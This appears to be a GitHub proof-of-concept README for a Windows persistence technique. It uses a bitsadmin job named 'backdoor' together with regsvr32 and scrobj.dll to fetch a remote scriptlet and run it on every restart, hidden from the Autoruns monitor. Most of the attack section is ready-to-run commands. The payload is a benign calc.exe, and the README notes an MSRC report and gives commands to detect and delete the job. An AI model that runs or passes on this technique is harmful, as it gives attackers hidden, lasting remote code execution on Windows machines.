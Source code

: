 # bitsadminexec
Use bitsadmin to maintain persistence and bypass Autoruns

Report to MSRC.

Author: 3gstudent@3gstudent

License: BSD 3-Clause

### POC

(1) First we should have the administrator's right.

(2) Then run this on cmd with administrator's right:

```
bitsadmin /create backdoor
bitsadmin /addfile backdoor %comspec%  %temp%\cmd.exe
bitsadmin.exe /SetNotifyCmdLine backdoor regsvr32.exe "/u /s /i:https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/calc.sct scrobj.dll"
bitsadmin /Resume backdoor
```

(3) Then it will run the following command to start a calc.exe:
```
regsvr32.exe "/u /s /i:https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/calc.sct scrobj.dll
```

(4) What's more,after we restart the system,the command to start a calc.exe runs again and again.


### Impact of the issue

Autoruns's startup monitor can't find this.

Test success on Win7 、Win8、Server 2008 and so on.

### Detect

Run this to check the jobs and delete it:
```
bitsadmin /list /allusers /verbose
```
or
```
Stop Background Intelligent Transfer Service
```

### More deatils:

http://drops.wooyun.org/tips/15692
